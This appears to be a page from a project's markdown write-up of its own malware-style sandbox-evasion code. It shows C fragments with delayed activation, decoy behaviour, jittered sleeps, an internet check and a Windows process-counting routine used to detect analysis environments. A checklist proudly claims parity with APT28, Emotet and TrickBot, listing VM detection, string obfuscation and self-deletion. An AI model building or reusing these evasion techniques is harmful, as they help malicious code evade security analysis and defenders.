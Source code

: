 ```c
    sleep_ms(initial_delay);
    
    // 2. Legitimate behavior simulation
    perform_decoy_behavior();  // 5-7s of real actions
    
    // 3. Random jitter
    jittered_sleep(5000, 2000);
    
    // 4. Internet check with retry
    if (!check_internet_connectivity()) {
        jittered_sleep(60000, 30000);
    }
    
    // Total: 70-200+ seconds with REAL behavior
}
```

**Verdict:** **ADVANCED - Not Surface Level** ✅

---

## 🎯 COMPARISON WITH INDUSTRY STANDARDS

### How Does This Compare to Real-World Malware?

#### APT28 (Fancy Bear) Techniques:
- ✅ VM detection: We implement this
- ✅ Time delays: We implement this
- ✅ Environmental keying: We implement this
- ✅ String obfuscation: We implement this

#### Emotet Techniques:
- ✅ Sandbox evasion: We implement this
- ✅ Random jitter: We implement this
- ✅ Process checks: We implement this
- ✅ Self-deletion: We implement this

#### TrickBot Techniques:
- ✅ Anti-analysis: We implement this
- ✅ Legitimate behavior first: We implement this
- ✅ Time-based activation: We implement this

**Our Implementation:** On par with nation-state and advanced persistent threat techniques ✅

---

## 📋 FUNCTION IMPLEMENTATION DETAILS

### `count_running_processes()` - Windows
```c
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
PROCESSENTRY32 pe32 = {0};
pe32.dwSize = sizeof(PROCESSENTRY32);

int count = 0;
if (Process32First(hSnapshot, &pe32)) {
    do {
        count++;
    } while (Process32Next(hSnapshot, &pe32));
}
CloseHandle(hSnapshot);
return count;
```